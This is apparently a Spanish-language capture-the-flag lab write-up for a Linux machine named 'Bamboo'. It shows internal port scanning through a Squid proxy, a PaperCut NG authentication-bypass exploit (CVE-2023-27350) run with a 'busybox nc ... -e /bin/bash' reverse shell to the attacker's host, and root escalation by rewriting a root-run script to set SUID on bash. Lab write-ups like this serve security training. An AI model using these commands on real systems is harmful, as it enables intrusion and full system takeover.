







# Resolución maquina Bamboo

**Autor:** PepeMaquina.
**Fecha:** 27 de Marzo de 2026.
**Dificultad:** Easy.
**Sistema Operativo:** Linux.
**Tags:** Proxy,  CVE, Print.

---
## Imagen de la Máquina

*Imagen: Bamboo.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.238.16 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,3128 10.129.238.16 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:b2:62:7d:9c:9c:1d:1c:43:8c:e3:e3:6a:49:f0:a7 (ECDSA)
|_  256 cf:48:f5:f0:a6:c1:f5:cb:f8:65:18:95:43:b4:e7:e4 (ED25519)
3128/tcp open  http-proxy Squid http proxy 5.9
|_http-server-header: squid/5.9
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.53 seconds
~~~
### Enumeración de nombre del dominio
Se realiza la enumeración de la página web pero esta no tiene algo interesante.

Pero se puede ver varias cosas, primero que el puerto `3128` indica que trabaja como un proxy, por lo que puede que externamente no tenga algun puerto asociado pero se puede escanear puertos internos pasando por dicho proxy.
Otra cosa que tambien se pudo ver es que existe una version squid 5.9, al buscar en internet esto conlleva vulnerabilidades como `CVE-2025-54574`, pero esto se trata de un BOF y estos son peligrosos y no es recomendable hacerlos, ademas se trata de un BOF dentro del servidor, teniendo acceso a ciertos archivos, por lo que se deja de lado.
### Puertos internos a travez del proxy
Se tiene un proxy corriendo por el puerto 3128, para saber que puertos internos son accesibles, se la puede hacer de forma manual, o siempre es mas facil hacerlo de forma automatizada.
Primero se puede usar la herramienta `spose`. (https://github.com/aancw/spose)
~~~bash
┌──(kali㉿kali)-[~/htb/bamboo/exploits/spose]
└─$ python spose.py --proxy http://10.129.238.16:3128 --target 10.129.238.16 --allports
Scanning all 65,535 TCP ports
Using proxy address http://10.129.238.16:3128
10.129.238.16:22 seems OPEN
10.129.238.16:9191 seems OPEN
10.129.238.16:9192 seems OPEN
10.129.238.16:9195 seems OPEN
~~~
Esta muestra 4 puertos abiertos, pero esta herramienta tarda mucho, por ello existe otra alternativa que es una herramienta un poco mas rapida pero mas simple. (https://gist.github.com/xct/597d48456214b15108b2817660fdee00).
~~~bash
┌──(kali㉿kali)-[~/htb/bamboo/exploits/squidscanxct]
└─$ go run squidscan.go
2320 / 65535 [---->__________________________________________________________________________________________________________________________] 3.54% 314 p/sPort 22 found!
9050 / 65535 [----------------->____________________________________________________________________________________________________________] 13.81% 235 p/sPort 9173 found!
9104 / 65535 [----------------->____________________________________________________________________________________________________________] 13.89% 235 p/sPort 9174 found!
Port 9195 found!
9193 / 65535 [----------------->____________________________________________________________________________________________________________] 14.03% 235 p/sPort 9192 found!
9392 / 65535 [------------------>___________________________________________________________________________________________________________] 14.33% 227 p/sPort 9191 found!
65534 / 65535 [----------------------------------------------------------------------------------------------------------------------------->] 100.00% 0 p/s
~~~
Con esta herramienta se logro ver mas puertos internos, asi que es hora de verlos, primero se podria configurar un proxy con la extensión `foxyproxy`.

Con la configuración hecha, solo es cuestión de entrar a los puertos existentes, al ingresar a los puertos `9173` y `9173` pero este solo descargo archivos `.data` que por el momento no son utilies.
Al ingresar al puerto `9191` se puede ver que trata de una aplicación web `papercut NG`.

### CVE-2023-27350
Esta muestra una version, asi que buscando CVE se logro encontrar `CVE-2023-27350`, este habla de una configuración mala que tiene para autenticarse son credenciales, y buscando un script se logro encontrar una PoC donde realiza un RCE dentro. (https://github.com/horizon3ai/CVE-2023-27350).
Se lo descargo pero antes se modifico el `/etc/proxichains.conf`.
~~~bash
┌──(kali㉿kali)-[/opt/linux]
└─$ cat /etc/proxychains4.conf
<----SNIP---->
#socks5 127.0.0.1 1080
http 10.129.238.16 3128
~~~
Modificando al final de todo el proxy, para de esa forma correr el PoC y lograr un RCE.
~~~bash
┌──(kali㉿kali)-[~/htb/bamboo/exploits/CVE-2023-27350]
└─$ proxychains4 python3 CVE-2023-27350.py --url 'http://10.129.238.16:9191' --command 'busybox nc 10.10.X.X 9001 -e /bin/bash'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  10.129.238.16:3128  ...  10.129.238.16:9191  ...  OK
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
[*] Updating print.script.sandboxed to N
[*] Prepparing to execute...
[+] Executed successfully!
[*] Updating print-and-device.script.enabled to N
[*] Updating print.script.sandboxed to Y
~~~
Desde otra terminar se abre un escucha y se logra una shell interactiva.
~~~bash
┌──(kali㉿kali)-[~/htb/bamboo/exploits/squidscanxct]
└─$ penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.5.128 • 172.17.0.1 • 172.18.0.1 • 10.10.14.28
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from bamboo~10.129.238.16-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/bamboo~10.129.238.16-Linux-x86_64/2026_03_26-19_23_41-414.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
papercut@bamboo:~/server$
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con esto ya se puede ver la user flag
~~~
papercut@bamboo:~/server$ cd
papercut@bamboo:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Lo primero que se realizo es la enumeración de archivos y directorios, se puede ver que dentro de la carpeta de trabajo del usuario papercut corre la aplicación web vista anteriormente.
~~~bash
papercut@bamboo:~$ ls -la
total 324
drwxr-xr-x  8 papercut papercut   4096 Sep 30 16:30 .
drwxr-xr-x  4 root     root       4096 May 26  2023 ..
lrwxrwxrwx  1 root     root          9 Sep 30 16:30 .bash_history -> /dev/null
-rw-r--r--  1 papercut papercut    220 May 26  2023 .bash_logout
-rw-rw-r--  1 papercut papercut     74 May 26  2023 .bash_profile
-rw-r--r--  1 papercut papercut   3771 May 26  2023 .bashrc
-rw-r--r--  1 papercut papercut    102 Sep 29  2022 .install-config
drwxrwxr-x  3 papercut papercut   4096 May 26  2023 .local
-rw-r--r--  1 papercut papercut    881 May 26  2023 .profile
-rwxr-xr-x  1 papercut papercut  50569 Sep 29  2022 LICENCE.TXT
-rwxr-xr-x  1 papercut papercut   1537 Sep 29  2022 README-LINUX.TXT
-rwxr-xr-x  1 papercut papercut 212715 Sep 29  2022 THIRDPARTYLICENSEREADME.TXT
drwxr-xr-x  5 papercut papercut   4096 May 26  2023 client
lrwxrwxrwx  1 papercut papercut     24 May 26  2023 docs -> server/data/content/help
drwxr-xr-x  9 papercut papercut   4096 May 26  2023 providers
drwxr-xr-x  6 papercut papercut   4096 May 26  2023 release
drwxr-xr-x  5 papercut papercut   4096 May 26  2023 runtime
drwxr-xr-x 13 papercut papercut   4096 May 26  2023 server
-rwxr-xr-x  1 papercut papercut   3099 Sep 29  2022 uninstall
-rw-r-----  1 root     papercut     33 Mar 26 18:59 user.txt
~~~
Fuera de ello no se ve algo mas importante.
Al realizar mas enumeración se logro enumerar procesos, logrando observar que existe un comando/script que se encuentra dentro de la aplicacion web (dentro mi caroeta de trabajo) y se ejecuta como root.
~~~bash
papercut@bamboo:/$ ss -tulpn
Netid       State        Recv-Q       Send-Q             Local Address:Port                Peer Address:Port       Process 
<----SNIP---->
root         512  0.0  0.9  33072 18676 ?        Ss   18:59   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         514  0.0  0.2   9520  4480 ?        Ssl  18:59   0:00 /home/papercut/providers/print-deploy/linux-x64/pc-print-deploy
syslog       515  0.0  0.3 222404  7040 ?        Ssl  18:59   0:04 /usr/sbin/rsyslogd -n -iNONE
<----SNIP---->
~~~
Con esto en mente, se pordria modificar ese script, pero se debe de tener una forma en que el ususario root lo corra, por ello se ven las tareas cron pero no se logro encontrar algo util, por ende se procedio a ejecutar `pspy`.
~~~bash
papercut@bamboo:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2026/03/27 02:06:06 CMD: UID=1001  PID=109531 | ./pspy64 
2026/03/27 02:06:06 CMD: UID=0     PID=109504 | /snap/amazon-ssm-agent/11797/amazon-ssm-agent 
2026/03/27 02:06:06 CMD: UID=0     PID=108919 | 
2026/03/27 02:06:06 CMD: UID=0     PID=108834 | 
2026/03/27 02:06:06 CMD: UID=0     PID=108532 |
<---SNIP---->
~~~
Pero despues de esperar un tiempo tampoco se logro obtener algun proceso ejecutandose como tarea programada.

Se realizo enumeración automatizada con linpeas. Se logro encontrar algo que puede ser util, esto es que existen posibles servicios que se ejecutan con los scripts que se encuentrar en mi carpeta de trabajo, esto porque al parecer esta vinculado a la aplicación web `papercut`
~~~bash
<----SNIP---->
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#services                                                                  
/etc/systemd/system/multi-user.target.wants/grub-common.service could be executing some relative path                                                       
/etc/systemd/system/multi-user.target.wants/pc-app-server.service is calling this writable executable: /home/papercut/server/bin/linux-x64/app-server
/etc/systemd/system/multi-user.target.wants/pc-app-server.service is calling this writable executable: /home/papercut/server/bin/linux-x64/app-server
/etc/systemd/system/multi-user.target.wants/pc-print-deploy.service is calling this writable executable: /home/papercut/providers/print-deploy/linux-x64/pc-print-deploy                                                                                                                                                
/etc/systemd/system/multi-user.target.wants/pc-web-print.service is calling this writable executable: /home/papercut/providers/web-print/linux-x64/pc-web-print                                                                                                                                                         
/etc/systemd/system/pc-app-server.service is calling this writable executable: /home/papercut/server/bin/linux-x64/app-server
/etc/systemd/system/pc-app-server.service is calling this writable executable: /home/papercut/server/bin/linux-x64/app-server
/etc/systemd/system/pc-print-deploy.service is calling this writable executable: /home/papercut/providers/print-deploy/linux-x64/pc-print-deploy
/etc/systemd/system/pc-web-print.service is calling this writable executable: /home/papercut/providers/web-print/linux-x64/pc-web-print
/etc/systemd/system/sleep.target.wants/grub-common.service could be executing some relative path
You can't write on systemd PATH
<----SNIP---->
~~~
Lo mas normal es que los servicios dentro de `/etc` se ejeuten como root, asi que revisando las propiedades de este.
~~~bash
papercut@bamboo:~/server$ ls -la /etc/systemd/system/pc-print-deploy.service
-rw-r--r-- 1 root root 367 May 26  2023 /etc/systemd/system/pc-print-deploy.service
~~~
Efectivamente corre como root.

Esto es un poco de logica, estos servicios estan sujetos a la aplicacion web, y estos a su vez corren un script cuando se los necesita, asi que, si logro hacer que se ejecute alguno se estos servicios, podria modificar un script para que ejecute algo malicioso y tener acceso como root.

Esta fue la parte dificil, primero replicando el CVE inicial para ingresar sin autenticacion, se ingreso a la url `http://10.129.238.16:9191/app?service=page/SetupCompleted`.

Al ingresar y presionar `login` esto omite la necesidad de realizar la autenticacion, es un error de acceso cuando finaliza la configuración inicial.
Antes de empezar a navegar por el sistema, se abrio `pspy` para ver que acciones podria realizar y cuando se ejecutaria un servicio que podemos modificar.
~~~bash
papercut@bamboo:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2026/03/27 02:06:06 CMD: UID=1001  PID=109531 | ./pspy64 
2026/03/27 02:06:06 CMD: UID=0     PID=109504 | /snap/amazon-ssm-agent/11797/amazon-ssm-agent 
2026/03/27 02:06:06 CMD: UID=0     PID=108919 |
~~~
Antes de modificar la aplicacion web, segun la IA alguno de esos servicios normalmente se ejecuta cuando se: "Instala drivers", "Crea impresoras", "modifica configs".
Al buscar cada una de estas opciones casi nada funciono, pero finalmente se logro encontrar algo relacionado a los drivers en la pestaña "Enable printing".

Al ingresar en esa flecha se tienen dos opciones para cargar drivers, en este caso la primera pide una descarga y la segunda realiza una busqueda.

Al presionarlo y revisando `pspy` se puede ver que el usuario root ejecuto un script `server-command`.
~~~bash
2026/03/27 02:34:09 CMD: UID=0     PID=113901 | 
2026/03/27 02:34:11 CMD: UID=0     PID=113902 | bash -c "/home/papercut/server/bin/linux-x64/server-command" get-config health.api.key 
2026/03/27 02:34:11 CMD: UID=0     PID=113903 | dirname /home/papercut/server/bin/linux-x64/server-command 
2026/03/27 02:34:11 CMD: UID=0     PID=113904 | cat /proc/1/comm 
2026/03/27 02:34:11 CMD: UID=0     PID=113905 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
2026/03/27 02:34:11 CMD: UID=0     PID=113906 | 
2026/03/27 02:34:11 CMD: UID=0     PID=113912 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
2026/03/27 02:34:11 CMD: UID=0     PID=113911 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
2026/03/27 02:34:11 CMD: UID=0     PID=113910 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
2026/03/27 02:34:11 CMD: UID=0     PID=113913 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
~~~
De esa forma se modifico dicho script.
~~~bash
papercut@bamboo:~ cat /home/papercut/server/bin/linux-x64/server-command
#!/bin/sh
#
# (c) Copyright 1999-2013 PaperCut Software International Pty Ltd
#
# A wrapper for server-command
#
chmod u+s /bin/bash
~~~
Ahora si, replicando lo que se hizo anteriormente para que se ejecute este script no se logro ejecutar, pero esta vez presionando `refreh servers`.

Si se ejecuto el comando como root.
~~~bash
2026/03/27 02:38:14 CMD: UID=0     PID=114558 | v2023-02-14-1341/pc-print-deploy-server -dataDir=/home/papercut/providers/print-deploy/linux-x64//data -pclog.dev                                                                                                                                                       
2026/03/27 02:38:14 CMD: UID=0     PID=114559 | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key 
2026/03/27 02:38:15 CMD: UID=0     PID=114560 |
~~~
Revisando los permisos de la bash, se ve que si funciono.
~~~bash
papercut@bamboo:~/server/bin/linux-x64$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con permisos SUID sobre la bash, se puede entrar como root.
~~~bash
papercut@bamboo:~/server/bin/linux-x64$ /bin/bash -p
bash-5.1# id
uid=1001(papercut) gid=1001(papercut) euid=0(root) groups=1001(papercut)
bash-5.1# cat /root/root.txt 
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

